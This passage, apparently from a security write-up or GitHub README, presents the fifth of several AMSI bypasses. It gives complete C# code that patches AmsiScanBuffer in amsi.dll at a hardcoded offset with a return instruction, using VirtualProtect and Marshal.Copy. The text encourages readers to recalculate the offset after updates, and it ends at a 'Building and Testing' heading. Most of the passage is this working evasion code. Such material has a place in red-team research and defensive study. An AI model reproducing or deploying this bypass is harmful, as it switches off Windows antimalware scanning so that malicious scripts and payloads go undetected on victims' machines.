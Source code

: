 ### 5) Using Our Offset

Using the base offset to the "AmsiScanBuffer" function alone, I was able to use the same skeleton as the other 4 bypasses but utilise this identified function's offset to write directly to the address (after grabbing the base address ofcourse). Naturally, this is not dynamic and will (probably?) change across updates, especially if the AMSI.dll is changed itself - but we can just recalculate and patch our own bypass! 

```c#
using System;
using System.Runtime.InteropServices;

public class Amsi
{
    static byte[] patchBytes = new byte[] { 0xC3 };

    public static void Bypass()
    {
        try
        {
            IntPtr lib = Win32.LoadLibrary("amsi.dll");
            int offset = 0x2540;
            IntPtr addr = lib + offset;

            uint oldProtect;
            Win32.VirtualProtect(addr, (UIntPtr)patchBytes.Length, 0x40, out oldProtect);

            Marshal.Copy(patchBytes, 0, addr, patchBytes.Length);
        }
        catch (Exception e)
        {
            Console.WriteLine(" [x] {0}", e.Message);
            Console.WriteLine(" [x] {0}", e.InnerException);
        }
    }
}

class Win32
{
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
```

## Building and Testing
